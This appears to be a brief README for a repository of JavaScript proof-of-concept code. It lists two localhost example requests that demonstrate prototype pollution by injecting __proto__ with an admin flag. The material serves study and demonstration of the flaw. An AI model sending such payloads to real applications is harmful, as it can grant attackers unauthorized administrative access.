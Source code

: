 # Javascript code

### All the POCs and garbage code goes here.

* Parameter Pollution - `routes/prototypepollution`

    Request - `http://localhost:3000/proto?attr=__proto__&value={"admin":"true"}`
    Request - `http://localhost:3000/proto/2?value={"__proto__":{"admin":"true"}}`